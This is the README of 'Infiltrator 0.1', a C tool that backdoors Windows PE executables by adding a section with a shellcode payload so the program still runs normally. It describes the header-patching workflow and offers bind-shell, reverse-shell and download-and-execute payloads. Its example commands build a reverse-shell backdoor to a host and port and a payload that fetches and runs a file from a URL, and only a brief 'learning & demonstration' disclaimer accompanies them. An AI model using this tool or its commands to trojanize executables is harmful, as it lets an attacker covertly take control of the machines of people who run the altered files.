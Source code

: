 Infiltrator
===========

Infiltrator 0.1

[*] License:

  Infiltrator by Saif El-Sherei is licensed under the Creative Commons Attribution-NonCommercial 3.0 Unported License. To view a copy of this license, visit http://creativecommons.org/licenses/by-nc/3.0/.
  
[*] Disclaimer:

	This Tool is for learning & Demonstration only. the author is not responsible for any misuse of this code or tool. 
	
[*] Introduction:

	Intifltrator is my first c project (so dont be so harsh :D). It is a PE Executable backdoor tool. i.e. it inserts payloads in exe files so the exe will function normally and execute our own code through it.
the working model is as follows.

 read input PE IMAGE_DOS_HEADERS --> read input PE IMAGE_NET_HEADERS --> read PE IMAGE_SECTION_HEADER list --> 	add new IMAGE_SECTION_HEADER -- > increase Number of Sections in IMAGE_NT_HEADER.File Header.NumberOfSections -->
increase ImageSize in IMAGE_NT_HEADER.OptionalHeader.ImageSize --> add rest of PE file --> write payload in our new section --> write to new PE file 

[*] Refrences:

https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/
http://win32assembly.programminghorizon.com
http://en.wikibooks.org/wiki/X86_Disassembly/Windows_Executable_Files#MS-DOS_header
http://www.sunshine2k.de/reversing/tuts/tut_addsec.htm
http://msdn.microsoft.com/en-us/library/ms809762.aspx
http://www.codereversing.com/blog/?p=92
http://www.alex-ionescu.com/part1.pdf

[*] Credits:

		[*] corelanc0d3r "https://www.corelan.be".
				"Thanks for the insight on the threaded shellcode & amazing tutorials"
		[*] Sherif El deeb "http://eldeeb.net/wrdprs/".
				"Thanks for the continous motovation, inspiration, & help through out this"
		[*] Metasploit Team.
				" Thanks for the amazingly well documented project metasploit framework"

[*] Author:

		[*] Saif El-Sherei 	* website: "http://www.elsherei.com" 
							* Twitter: @saif_sherei
							* email: saif.elsherei@gmail.com
[*] Features:

		[*] Three Payload Types (bind tcp, reverse tcp, download and execute).
		[*] Choose between threaded shellcode or blocking shellcode.
		[*] specify shellcode options; no need for hardcoding (see usage below).
		[*] PE executable works normaly without any issues.
[*] Todo:

		[*] Payload encoding.
[*] Usage:

 Infiltrator -i [INPUT EXE] -o [OUTPUT EXE] -k (threaded) or -s (Normal) [type]
                 -p [PORT] -h [HOST] -u [URL] -f [URL path] -of [output file]

[*] Example:

- infiltrator -i "input.exe" -o "output.exe" -k "reverse" -p 1234 -h "127.0.0.1"
- infiltrator -i "input.exe" -o "output.exe" -k "bind" -p 1234 
- infiltrator -i "input.exe" -o "output.exe" -s "download & execute" -u www.test.com -f "test.exe" -of "test-output.exe"

[*] Options:

 -i [EXE]   				INPUT file.exe (PE)
 
 -o [EXE]				OUPUT file.exe (PE)
 
 -s [TYPE]   				Normal Shellcode followed by one of the payload types
 
 -k [TYPE]    				Threaded Shellcode followed by one of the payload types

[*] Payload Types:

 "bind"                          	Bind payload Followed by payload options
 
 "reverse"                        	Connect Back Payload Followed by payload options
 
 "download & execute"     		Download & exec Payload Followed by payload options
 

[*] Payload Options:

 -p [port]                      	port to use (Bind or Reverse Payload)
 
 -h [host]                      	Host to connect to (Reverse Payload)
 
 -u [url]                      		URL to connect to (Download & Exec Payload)
 
 -f [path]                     		path to file to fetch (Download & Exec Payload)
 
 -of [output file]      		output file to Execute from  Download & Exec Payload
